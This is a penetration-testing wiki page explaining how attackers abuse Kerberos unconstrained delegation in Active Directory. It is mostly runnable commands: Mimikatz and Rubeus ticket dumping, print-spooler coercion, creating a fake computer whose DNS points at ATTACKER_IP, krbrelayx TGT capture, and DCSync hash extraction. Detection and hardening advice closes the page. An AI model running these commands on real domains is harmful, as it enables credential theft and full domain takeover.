 # Unconstrained Delegation

## Unconstrained delegation

This a feature that a Domain Administrator can set to any **Computer** inside the domain. Then, anytime a **user logins** onto the Computer, a **copy of the TGT** of that user is going to be **sent inside the TGS** provided by the DC **and saved in memory in LSASS**. So, if you have Administrator privileges on the machine, you will be able to **dump the tickets and impersonate the users** on any machine.

So if a domain admin logins inside a Computer with "Unconstrained Delegation" feature activated, and you have local admin privileges inside that machine, you will be able to dump the ticket and impersonate the Domain Admin anywhere (domain privesc).

You can **find Computer objects with this attribute** checking if the [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) attribute contains [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>). You can do this with an LDAP filter of ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, which is what powerview does:

```bash
# List unconstrained computers
## Powerview
## A DCs always appear and might be useful to attack a DC from another compromised DC from a different domain (coercing the other DC to authenticate to it)
Get-DomainComputer –Unconstrained –Properties name
Get-DomainUser -LdapFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'

## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

# Export tickets with Mimikatz
## Access LSASS memory
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
## Doens't access LSASS memory directly, but uses Windows APIs
Rubeus.exe dump
Rubeus.exe monitor /interval:10 [/filteruser:<username>] #Check every 10s for new TGTs
```

Load the ticket of Administrator (or victim user) in memory with **Mimikatz** or **Rubeus for a** [**Pass the Ticket**](pass-the-ticket.md)**.**\
More info: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**More information about Unconstrained delegation in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Force Authentication**

If an attacker is able to **compromise a computer allowed for "Unconstrained Delegation"**, he could **trick** a **Print server** to **automatically login** against it **saving a TGT** in the memory of the server.\
Then, the attacker could perform a **Pass the Ticket attack to impersonate** the user Print server computer account.

To make a print server login against any machine you can use [**SpoolSample**](https://github.com/leechristensen/SpoolSample):

```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```

If the TGT if from a domain controller, you could perform a [[acl-persistence-abuse/README.md#Dcsync|DCSync attack]] and obtain all the hashes from the DC.\
[**More info about this attack in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

Find here other ways to **force an authentication:**

[[printers-spooler-service-abuse.md]]

### Abusing Unconstrained Delegation with an attacker-created computer

Modern domains often have `MachineAccountQuota > 0` (default 10), allowing any authenticated principal to create up to N computer objects. If you also hold the `SeEnableDelegationPrivilege` token privilege (or equivalent rights), you can set the newly created computer to be trusted for unconstrained delegation and harvest inbound TGTs from privileged systems.

High-level flow:

1) Create a computer you control

```bash
# Impacket addcomputer.py (any authenticated user if MachineAccountQuota > 0)
addcomputer.py -computer-name <FAKEHOST> -computer-pass '<Strong.Passw0rd>' -dc-ip <DC_IP> <DOMAIN>/<USER>:'<PASS>'
```

2) Make the fake hostname resolvable inside the domain

```bash
# krbrelayx dnstool.py - add an A record for the host FQDN to point to your listener IP
python3 dnstool.py -u '<DOMAIN>\\<FAKEHOST>$' -p '<Strong.Passw0rd>' \
  --action add --record <FAKEHOST>.<DOMAIN_FQDN> --type A --data <ATTACKER_IP> \
  -dns-ip <DC_IP> <DC_FQDN>
```

3) Enable Unconstrained Delegation on the attacker-controlled computer

```bash
# Requires SeEnableDelegationPrivilege (commonly held by domain admins or delegated admins)
# BloodyAD example
bloodyAD -d <DOMAIN_FQDN> -u <USER> -p '<PASS>' --host <DC_FQDN> add uac '<FAKEHOST>$' -f TRUSTED_FOR_DELEGATION
```

Why this works: with unconstrained delegation, the LSA on a delegation-enabled computer caches inbound TGTs. If you trick a DC or privileged server to authenticate to your fake host, its machine TGT will be stored and can be exported.

4) Start krbrelayx in export mode and prepare the machine NT hash

```bash
# Compute NT hash (MD4 over UTF-16LE) of the machine account password
python3 - << 'PY'
password = '<Strong.Passw0rd>'
import hashlib
print(hashlib.new('md4', password.encode('utf-16le')).hexdigest())
PY
# Launch krbrelayx to export any inbound TGTs
python3 krbrelayx.py -hashes :<NT_HASH>
```

5) Coerce authentication from the DC/servers to your fake host

```bash
# netexec (CME fork) coerce_plus module supports multiple coercion vectors
# Common options: METHOD=PrinterBug|PetitPotam|DFSCoerce|MSEven
netexec smb <DC_FQDN> -u '<FAKEHOST>$' -p '<Strong.Passw0rd>' -M coerce_plus -o LISTENER=<FAKEHOST>.<DOMAIN_FQDN> METHOD=PrinterBug
```

krbrelayx will save ccache files when a machine authenticates, for example:

```
Got ticket for DC1$@DOMAIN.TLD [krbtgt@DOMAIN.TLD]
Saving ticket in DC1$@DOMAIN.TLD_krbtgt@DOMAIN.TLD.ccache
```

6) Use the captured DC machine TGT to perform DCSync

```bash
# Create a krb5.conf for the realm (netexec helper)
netexec smb <DC_FQDN> --generate-krb5-file krb5.conf
sudo tee /etc/krb5.conf < krb5.conf

# Use the saved ccache to DCSync (netexec helper)
KRB5CCNAME=DC1$@DOMAIN.TLD_krbtgt@DOMAIN.TLD.ccache \
  netexec smb <DC_FQDN> --use-kcache --ntds

# Alternatively with Impacket (Kerberos from ccache)
KRB5CCNAME=DC1$@DOMAIN.TLD_krbtgt@DOMAIN.TLD.ccache \
  secretsdump.py -just-dc -k -no-pass <DOMAIN>/ -dc-ip <DC_IP>
```

Notes and requirements:

- `MachineAccountQuota > 0` enables unprivileged computer creation; otherwise you need explicit rights.
- Setting `TRUSTED_FOR_DELEGATION` on a computer requires `SeEnableDelegationPrivilege` (or domain admin).
- Ensure name resolution to your fake host (DNS A record) so the DC can reach it by FQDN.
- Coercion requires a viable vector (PrinterBug/MS-RPRN, EFSRPC/PetitPotam, DFSCoerce, MS-EVEN, etc.). Disable these on DCs if possible.

Detection and hardening ideas:

- Alert on Event ID 4741 (computer account created) and 4742/4738 (computer/user account changed) when UAC `TRUSTED_FOR_DELEGATION` is set.
- Monitor for unusual DNS A-record additions in the domain zone.
- Watch for spikes in 4768/4769 from unexpected hosts and DC-authentications to non-DC hosts.
- Restrict `SeEnableDelegationPrivilege` to a minimal set, set `MachineAccountQuota=0` where feasible, and disable Print Spooler on DCs. Enforce LDAP signing and channel binding.

### Mitigation

- Limit DA/Admin logins to specific services
- Set "Account is sensitive and cannot be delegated" for privileged accounts.

## References

- HTB: Delegate — SYSVOL creds → Targeted Kerberoast → Unconstrained Delegation → DCSync to DA: https://0xdf.gitlab.io/2025/09/12/htb-delegate.html
- harmj0y – S4U2Pwnage: https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/
- ired.team – Domain compromise via unrestricted delegation: https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation
- krbrelayx: https://github.com/dirkjanm/krbrelayx
- Impacket addcomputer.py: https://github.com/fortra/impacket
- BloodyAD: https://github.com/CravateRouge/bloodyAD
- netexec (CME fork): https://github.com/Pennyw0rth/NetExec


